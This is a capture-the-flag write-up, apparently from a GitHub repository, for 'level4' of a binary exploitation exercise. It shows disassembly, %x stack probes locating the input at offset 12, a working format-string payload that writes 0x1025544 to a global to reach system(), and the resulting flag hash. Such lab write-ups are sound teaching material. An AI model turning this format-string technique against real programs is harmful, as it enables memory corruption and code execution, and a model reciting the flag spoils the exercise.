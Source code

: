 ## level4
The `level4` is almost the same as `level3`, a very basic main that calls a function called `n()` that also calls `p()` only for outputing what was entered as argument and then function `n()` compares the value inside *global variable 0x8049810 \<m>* to `0x1025544` and if they are not equal the function returns otherwise it executes: <br> `0x080484a0 <+73>:	call   0x8048360 <system@plt>` <br>and that's what we want.
```
0x080484a7 <+0>:	push   ebp
0x080484a8 <+1>:	mov    ebp,esp
0x080484aa <+3>:	and    esp,0xfffffff0
0x080484ad <+6>:	call   0x8048457 <n>
0x080484b2 <+11>:	leave
0x080484b3 <+12>:	ret
```
We will be usding the same strategy from `level3` __*format string exploit*__, bear in mind that this time we will need to set a variable to a much higher value, in `level3` was just *64* while in `level4` the value is `0x1025544 (16930116)` so we will need to modify a bit our strategy, but if I remember well when I coded my own version of `printf()` *(I would have never imagined this project would help me in this way :p)* the `printf()` function has an option for `padding` and that's what we're  gonna use here to generate those extra `16930112` characters *(Yeah I'm not kidding)*, let's start to find the __offset__ for our __address__
```
~$ echo "AAAA %x %x %x %x %x %x" | ./level4
AAAA b7ff26b0 bffff744 b7fd0ff4 0 0 bffff708
~$ echo "AAAA %x %x %x %x %x %x %x %x" | ./level4
AAAA b7ff26b0 bffff744 b7fd0ff4 0 0 bffff708 804848d bffff500
~$ echo "AAAA %x %x %x %x %x %x %x %x %x %x" | ./level4
AAAA b7ff26b0 bffff744 b7fd0ff4 0 0 bffff708 804848d bffff500 200 b7fd1ac0
~$ echo "AAAA %x %x %x %x %x %x %x %x %x %x %x %x" | ./level4
AAAA b7ff26b0 bffff744 b7fd0ff4 0 0 bffff708 804848d bffff500 200 b7fd1ac0 b7ff37d0 41414141
```
A little bit harder but we could find it, checking the position we know our __address__ is being set on the stack at postion 12th so we get it done `%12\$n` and the address we have it from the disassembled code<br>
`x0804848d <+54>:	mov    eax,ds:0x8049810`<br> Now we just need to build the *format string specifier*. <br>
`(python -c "print('\x10\x98\x04\x08' + 'A' + '%16930111c' + '%12\$n')";) | ./level4` <br>
[...]<br>
after some 16930111 space later<br>
`0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a`

